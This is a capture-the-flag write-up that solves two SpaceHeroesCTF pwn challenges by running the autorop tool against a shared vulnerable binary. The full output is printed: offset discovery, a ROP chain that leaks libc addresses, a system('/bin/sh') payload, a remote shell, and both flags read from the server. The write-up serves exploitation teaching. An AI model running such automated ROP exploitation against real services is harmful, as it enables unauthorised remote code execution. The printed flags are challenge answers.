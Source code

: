 # Vader and Rule of Two

### This is a UNINTENDED Solution for this two challenges.

Challenge Description:

```bash  
Vader  
100  
Medium  
Submit flag from /flag.txt from 0.cloud.chals.io:20712

Author: v10l3nt

0.cloud.chals.io:20712  
```  
```bash  
Rule of Two  
375  
Hard  
"Always there are two. No more or no less." - Yoda

Submit /sith.txt flag from 0.cloud.chals.io:20712

Author: v10l3nt

0.cloud.chals.io:20712  
```

If you see close, you note that both challenge has the same address, same
port, and most important, the same binary!!

I will use an automated tool for CTF PWN resolution challenges called
[AUTOROP](https://autorop.readthedocs.io/en/latest/)

```bash  
┌──(leonuz㉿sniper)-[~[~/SpaceHeroesCTF/PWN/Vader]]  
└─$ autorop ./vader 0.cloud.chals.io 20712  
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False,
['__libc_start_main', 'puts']), Auto(), SystemBinSh())  
[*] Pipeline [1/5]: Corefile()  
[+] Starting local process './vader': pid 9817  
[*] Process './vader' stopped with exit code -11 (SIGSEGV) (pid 9817)  
[+] Receiving all data: Done (0B)  
[+] Parsing corefile...: Done  
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/core.9817'  
   Arch:      amd64-64-little  
   RIP:       0x4015f9  
   RSP:       0x7ffe4eb5c7c8  
   Exe:       '/home/leonuz/CTFs/SpaceHeroesCTF/vader' (0x400000)  
   Fault:     0x6161616161616166  
[*] Fault address @ 0x6161616161616166  
[*] Offset to return address is 40  
[*] Pipeline [2/5]: OpenTarget()  
[+] Opening connection to 0.cloud.chals.io on port 20712: Done  
[*] Pipeline [3/5]: Puts(False, ['__libc_start_main', 'puts'])  
[+] Opening connection to 0.cloud.chals.io on port 20712: Done  
[*] Loaded 20 cached gadgets for './vader'  
[*] 0x0000:         0x401016 ret  
   0x0008:         0x40165b pop rdi; ret  
   0x0010:         0x404ff0 [arg0] rdi = __libc_start_main  
   0x0018:         0x401030 puts  
   0x0020:         0x401016 ret  
   0x0028:         0x40165b pop rdi; ret  
   0x0030:         0x405018 [arg0] rdi = got.puts  
   0x0038:         0x401030 puts  
   0x0040:         0x401016 ret  
   0x0048:         0x4015b5 main()  
[*] leaked __libc_start_main @ 0x7f1409a81720  
[*] leaked puts @ 0x7f1409acfde0  
[*] Pipeline [4/5]: Auto()  
[*] Searching for libc based on leaks using libc.rip  
[!] 8 matching libc's found, picking first one  
[*] Downloading libc  
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/.autorop.libc'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] Pipeline [5/5]: SystemBinSh()  
[*] Loaded 191 cached gadgets for '.autorop.libc'  
[*] 0x0000:         0x401016 ret  
   0x0008:         0x40165b pop rdi; ret  
   0x0010:   0x7f1409be2962 [arg0] rdi = 139724039530850  
   0x0018:   0x7f1409aa3850 system  
   0x0020:         0x401016 ret  
   0x0028:         0x4015b5 main()  
[*] Switching to interactive mode  
MMMMMMMMMMMMMMMMMMMMMMMMMMMWXKOxdolc;',;;::llclodkOKNWMMMMMMMMMMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMMMMMMMWXOoc;::::::;;;clkKNXxlcccc:::::cdOXWMMMMMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMMWMMNkc,;clccc;,...    .:c:.
...,;:cccc:,,ckNMWMMMMMMMMMMMMMDARK  
MMMMMMMMMMMMMMMMMMXx;;lol:'            .'.
.':loc',xNMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMW0:;dxlcc'            .dO;
.::lxo':0MMMMMMMMMMMMS1D3  
MMMMMMMMMMMMMMMWk':Ol;x0c           ';oKK: .
cOo,dk;,OMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMO':Ol:0Xc            l0OXNc.l'
cKO;o0;,KMMMMMMMMMMMMOF  
MMMMMMMMMMMMMMX:'Oo:KMd             o0ONWc'x,
.xM0:xk.lWMMMMMMMMMMMMM  
MMMMMMMMMMMMMMx.okcOMMk.            o0OWMl'x;
.xMMklOc'OMMMMMMMMMMTH3  
MMMMMMMMMMMMMWc'xldWMMWKx'          oOkNMo,x;
'oONMMWdod.oMMMMMMMMMMMMM  
MMMMMMMMMMMMMK;:dl0MMMMMXc          lOxNMo'd;
lWMMMMMOld;:NMMMMMMMFORC3  
MMMMMMMMMMMMMO':ldWMMMMWo           ckxNMd,d;
.kMMMMMNlc;,KMMMMMMMMMMMM  
MMMMMMMMMMMMMk';cxMMMMMWOl:,.       cxxNMx;d;
.,;l0MMMMMWdc;'0MMMMMMMMMMMM  
MMMMMMMMMMMMMx',cOMMMWXOxoc;.       cxxNMkcx:
.cdkOXWMMMMd:;'0MMMMMMMMMMMM  
MMMMMMMMMMMMMx';;l0xl,.    .       ,0xdWMOcOx.
.,lkXWd:;'OMMMMMMMMMMMM  
MMMMMMMMMMMMMd.ld:'    .',;::ccc:;,kWxxWMOlONo',:cc::,'...
'ood:'OMMMMMMMMMMMM  
MMMMMMMMMMMMWl.xK:            .';coOXo:xxo:kKkl:;'.
.oXl.OMMMMMMMMMMMM  
MMMMMMMMMMMM0';d'       .......',;;''.    ..'',;,'......
lo.lWMMMMMMMMMMM  
MMMMMMMMMMMX:,l'        ..      .',:;lo. ;d:;:,..     ..
c:.xWMMMMMMMMMM  
MMMMMMMMMMNc,o,                     '0XxoOWd.
.l:,0MMMMMMMMMM  
MMMMMMMMMWd,o;                      .xMNXWWc
.o::XMMMMMMMMM  
MMMMMMMMMk,oc                    .. .kXkdONc ..
'd;oWMMMMMMMM  
MMMMMMMM0;lo.         .;:,'....  'cxxo;'''cxxo:. ......';'
:x:xWMMMMMMM  
MMMMMMMK:lx.           'xNNXXXKd;;::,.,l:..':c;,;xKKKXX0l.
oxcOMMMMMMM  
MMMMMMXcck,         ..   ,cloool:. .lc,,'.cx, .';looooc.
.kxlKMMMMMM  
MMMMMWoc0c      .'. .cdll;..',;lkOxxl:xOOxclddkkl:,''.';:cl'  ..
:KddNMMMMM  
MMMMWxc0x.       :o; .xWWKkdodkKWMMKlxWMMMKdOMMWXkdoloONMXc .cc.
.dXdxWMMMM  
MMMMOcOK;         'xd.'0MMMMMMMXk0Xc'dKXXKO:,0KkKWMMMMMMWo.;xl.
,0XxOWMMM  
MMM0lkNo           .xO;cXWWMWXd:dx; ;d;,:l:  ;xd:l0WMMMWx,oO;
oWKx0MMM  
MMKokW0'            .dKdOWMNx;ckd:. lK,.cOd..lcdO:'oXMMKokO,
.OWKkXMM  
MXdxN0;              .kWNWXc.,d;.do lK,.:kd.,0l.;o,.:KWNNK,
;KW0kNM  
NxdOc.                ,0MMd..;l''Oo lK,.;kd.;Ko .,,. lWMXc
'xXOOW  
xd0d.                  ;KMO,.c0ocXk;xXocxK0cdNOcol'''dWWd.
.o0kO  
,xWX:                   :XXc.:oddxxxxxxddxxxxkkOko;.:KNd.
'kN0l  
.,dOkdoc:,'..            .'..,lxkox0OO0kxOOxOOddxl,..,,.
..,:lkKOl.  
x,...',;:cc::;,,'''...        .,;cdO0KKKXXKkdo:,,'.
...'',,,,;;clllc;'..;  
MNKOxdoolcc::;;;;. ..             ..,;:clc;..
...,;;;,,'',;;:clox0N  
MMMMMMMMMMMMMMMMW0;
'kKXXNNNWWMMMMMMMMM  
MMMMMMMMMMMMMMMMMMNd,..          ........                ..
.kWMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMMMMWKxl;..       'okOOko:,..     ..
....';lKWMMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMMMMMMMXkdc'....   .,cc:,,'..
.'o0Oo:;:cokXMMMMMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMMMMMMMMMWXkdoc;''''',,;;:::::::ccllclx0NMMMMMMMMMMMMMMMMMMMMMMMM  
MMMMMMMMMMMMMMMMMMMMMMMMMMMMWXkol:;,'.''''....,cokKWMMMMMMMMMMMMMMMMMMMMMMMMMMMM

When I left you, I was but the learner. Now I am the master >>> $

```

At this point, we can see the prompt `$` which indicate that the machine has
been pwn. Let's list the directory looking for the flags.

```bash  
When I left you, I was but the learner. Now I am the master >>> $ ls  
-  
banner_fail  
bin  
boot  
dev  
etc  
flag.txt  
home  
lib  
lib32  
lib64  
libx32  
media  
mnt  
opt  
proc  
root  
run  
sbin  
service.conf  
sith.txt  
srv  
sys  
tmp  
usr  
vader  
var  
wrapper  
$ cat flag.txt  
shctf{th3r3-1s-n0-try}  
$ cat sith.txt  
shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}  
$  
[*] Interrupted  
[*] Closed connection to 0.cloud.chals.io port 20712  
[*] Closed connection to 0.cloud.chals.io port 20712  
  
```  
flag for "Vader" Challenge is inside of flag.txt  
##### shctf{th3r3-1s-n0-try}  
  
flag for "Rule of two" Challenge is inside of sith.txt  
##### shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}  

- - -  
#### More Info about automatic tools for PWN here  
- [AUTOROP](https://github.com/mariuszskon/autorop)  
- [ZERATOOL](https://github.com/ChrisTheCoolHut/Zeratool)

- - -  
### Final Notes.

An excellent engineering professor taught me that **"As an engineers we can't
know ALL the answers, but we SHOULD know how to look for them"**.

- - -

Thanks [FITSEC Team](https://research.fit.edu/fitsec/) for the excellent CTF.

For fun and knowledge, always think out of the box! :)

Original writeup (https://leonuz.github.io/blog/Vader/).
